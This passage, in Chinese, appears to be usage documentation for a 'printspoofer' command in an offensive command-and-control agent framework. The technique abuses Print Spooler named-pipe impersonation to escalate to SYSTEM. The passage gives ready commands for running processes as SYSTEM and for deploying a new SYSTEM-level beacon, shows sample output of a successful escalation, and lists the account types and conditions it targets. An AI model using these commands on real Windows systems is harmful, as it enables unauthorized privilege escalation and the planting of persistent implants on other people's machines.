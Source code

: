 **效果**:
- ✅ 当前 agent 的线程切换到 SYSTEM 上下文
- ✅ 后续命令以 SYSTEM 权限执行
- ✅ Agent UI 显示 "impersonated: SYSTEM"

#### 示例 2: 以 SYSTEM 运行命令

```bash
printspoofer --run "C:\Windows\System32\cmd.exe /c whoami > C:\temp\result.txt"
```

**输出示例**:
```
[*] PrintSpoofer - Local Privilege Escalation
[*] Technique: Named Pipe Impersonation via Print Spooler

[*] Named Pipe created: \\.\pipe\printspoof5e6f7a8b
[*] Triggering named pipe connection via Print Spooler...
[+] Triggered Print Spooler connection
[*] Waiting for connection (timeout: 5000 ms)...
[+] Client connected!
[*] Attempting to impersonate client...
[+] Impersonation successful!
[+] Obtained SYSTEM (S-1-5-18) token with impersonation level: Impersonation
[*] Starting process: C:\Windows\System32\cmd.exe /c whoami > C:\temp\result.txt
[+] Process created with PID: 4532

[*] PrintSpoofer completed
```

**效果**:
- ✅ 新进程以 SYSTEM 权限运行
- ✅ 当前 agent 不受影响

#### 示例 3: 部署新 Beacon

```bash
printspoofer --run "C:\temp\beacon.exe"
```

**用途**: 
- 创建一个新的 SYSTEM 权限 beacon
- 原 beacon 保持不变

## 适用场景

### ✅ 适合使用的场景

1. **服务账户 (Service Account)**
   - 已经有 `SeImpersonatePrivilege` 权限
   - Print Spooler 服务正在运行
   - 目标：提升到 SYSTEM

2. **低权限用户 + Print Spooler 运行**
   - 普通用户账户
   - Print Spooler 服务启动
   - 目标：从用户提升到 SYSTEM
